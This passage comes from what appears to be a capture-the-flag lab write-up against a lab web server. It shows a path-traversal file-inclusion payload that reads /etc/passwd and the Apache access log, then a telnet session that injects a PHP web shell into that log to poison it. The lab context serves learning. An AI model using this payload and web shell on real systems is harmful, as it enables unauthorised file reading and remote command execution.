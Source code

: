  Given we provide an ext parameter, we can override the default php extension
 
 Lets now check it out on the web server 
![image](https://user-images.githubusercontent.com/113513376/214087315-a08599ea-82d1-466a-af13-54503ff748b6.png)

Here's how the payload should look like

```
http://192.168.66.216/dashboard.php?show=pending/../../../../../etc/passwd&ext=
```

We've now confirmed the lfi vulnerablity
![image](https://user-images.githubusercontent.com/113513376/214090345-1b1b6999-d038-4548-89bd-aba6ae54dbb2.png)

So lets get rce via this

One way of doing this is by performing Log Poisoning

But first we need to know the path where access/error logs are stored

By default apache2 logs are stored in `/var/log/apache2/access.log`

Now i'll try to read the file 
![image](https://user-images.githubusercontent.com/113513376/214092083-71549ba4-eb75-49d9-90b1-17e2ff293a6a.png)

Boom!!! So lets perform log poisoining 

```
┌──(mark__haxor)-[~/_/Pg/Practice/Lunar/backup]
└─$ telnet 192.168.66.216 80
Trying 192.168.66.216...
Connected to 192.168.66.216.
Escape character is '^]'.
<?php system($_REQUEST['cmd']); ?>

HTTP/1.1 400 Bad Request
Date: Mon, 23 Jan 2023 16:21:18 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.41 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>
Connection closed by foreign host.
 ```
  